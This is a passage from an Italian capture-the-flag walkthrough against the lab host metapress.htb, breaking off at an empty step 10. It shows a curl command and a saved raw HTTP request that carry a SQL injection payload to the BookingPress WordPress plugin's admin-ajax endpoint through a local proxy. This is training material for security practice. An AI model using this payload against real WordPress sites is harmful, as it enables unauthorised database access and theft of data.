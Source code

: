 curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \      --data 'action=bookingpress_front_get_category_services&_wpnonce=224e07b058&category_id=33&total_service=-7502)    -x http://127.0.0.1:8080

9) Ci portiamo la richiesta nel computer:

┌──(kali㉿kali)-[~]
└─$ cat  'sql Inject.req'
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
User-Agent: curl/7.85.0
Accept: */*
Content-Length: 185
Content-Type: application/x-www-form-urlencoded
Connection: close

action=bookingpress_front_get_category_services&_wpnonce=224e07b058&category_id=33&total_service=-7502) 

10) 

